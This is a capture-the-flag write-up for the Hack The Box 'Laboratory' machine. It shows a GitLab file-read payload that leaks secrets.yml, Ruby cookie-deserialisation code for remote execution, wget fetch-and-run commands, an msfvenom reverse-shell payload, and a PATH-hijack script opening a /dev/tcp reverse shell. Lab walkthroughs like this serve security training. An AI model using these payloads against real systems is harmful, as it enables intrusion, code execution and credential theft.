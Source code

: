# Box 



![laboratory](img/Screenshot_2020-12-24_17-21-44.png)

https://www.hackthebox.eu/home/machines/profile/298

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance 

Let's start with nmap :

```bash
nmap -A -oA nmap 10.10.10.216
```



![Screenshot_2020-12-17_11-42-14](img/Screenshot_2020-12-17_11-42-14.png)

Let's add the subdomain to our /etc/hosts file 

![Screenshot_2020-12-17_11-44-22](img/Screenshot_2020-12-17_11-44-22.png)

In the basic webpage on the port 80 I find nothing interesting.

We go to  the https://git.laboratory.htb webpage.



![Screenshot_2020-12-17_11-51-59](img/Screenshot_2020-12-17_11-51-59.png)





​	After registering we can find a user Dexter (https://git.laboratory.htb/dexter) which is the owner of the website :

![Screenshot_2020-12-17_11-53-45](img/Screenshot_2020-12-17_11-53-45.png)



I found the version of the page which is  12.8.1, we find an exploit which is an exploit do a LFI and a RCE : https://hackerone.com/reports/827052

We are going to use this code : 

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `echo vakzz was here > /tmp/vakzz` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

We need to get the secrets.yml file to steal the identity of the gitlab website. 

First, we need to create 2 different project.

Create an issue with this code : 

```bash
![a](/uploads/11111111111111111111111111111111/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```

Move the issue to the second project.

You got the secrets.yml file.

## Exploitation

Now you need to install gitlab on your local machine and replace your secrets.yml file by the one that we got from the laboratory website.

Now let's use the code that I got earlier to have our cookie, start the console and paste the code there :

```bash
gitlab-rails console 
```

You need to modify this line : 

````ruby
erb = ERB.new("<%= `wget http://ip:port/file` %>")
````



![Screenshot_2020-12-18_13-50-40](img/Screenshot_2020-12-18_13-50-40.png)



To send you can use curl : 

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=<your_cookie>" -k  
```

We can see here that we have suceeded to upload a file.

Let's get a reverse_shell.

I use this payload and generate a linux executable to get my reverse_shell :

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.137 LPORT=1234 -f elf >reverse.elf
```

Upload your file like before. Now we just have to setup our nc to get our shell.

```bash
nc -lvp 1234
```

If you want to do everything in one line you can do this : 

```ruby
erb = ERB.new("<%= `cd /tmp && wget http://10.10.14.137:4444/reverse.elf && chmod +x reverse.elf && ./reverse.elf` %>")
```

Now that we got our cookies we just have to send it :

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=<your_cookie>" -k  
```

We got ou reverse_shell ! 

![Screenshot_2020-12-18_14-50-19](img/Screenshot_2020-12-18_14-50-19.png)

## Post-Exploitation

### User

I do `bash -i` to get a better shell.

```bash
bash -i 
```



![Screenshot_2020-12-18_16-03-33](img/Screenshot_2020-12-18_16-03-33.png)

We need to escape the docker.

After trying to enumerate the machine, I've used the gitlab console to manage the dexter user.

You need to use : 

```bash
gitlab-rails console 
```

We are connected directly to the website so we can changer the password of dexter.

![Screenshot_2020-12-18_16-37-05](img/Screenshot_2020-12-18_16-37-05.png)

We can see a "true" statement. We know have full access to the dexter account : 

![Screenshot_2020-12-18_16-40-31](img/Screenshot_2020-12-18_16-40-31.png)



We find a new private repo which contains a ssh key which belongs to dexter, we can now login as dexter.

```bash
ssh -i id_rsa dexter@10.10.10.216 
```

We can know get the user.txt flag

### Root



![Screenshot_2020-12-19_03-52-04](img/Screenshot_2020-12-19_03-52-04.png)

After enumerating the machine I find a suspecious binary file : 

![Screenshot_2020-12-19_13-50-20](img/Screenshot_2020-12-19_13-50-20.png)



Executing this file does nothing so I get the file on my local machine to read what's inside it thanks to the strings command.

```bash
strings docker-security
```

![Screenshot_2020-12-19_13-47-09](img/Screenshot_2020-12-19_13-47-09.png)

Here we can see the vulnerability. chmod is not an absolute path so we can change our path to get a reverse_shell.



Let's write our script called "chmod": 

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.137/1235 0>&1
```

Add the path where you script is : 

```bash
PATH=/home/dexter:$PATH
```

Execute docker-security.

![Screenshot_2020-12-19_13-55-53](img/Screenshot_2020-12-19_13-55-53.png)

Rooted.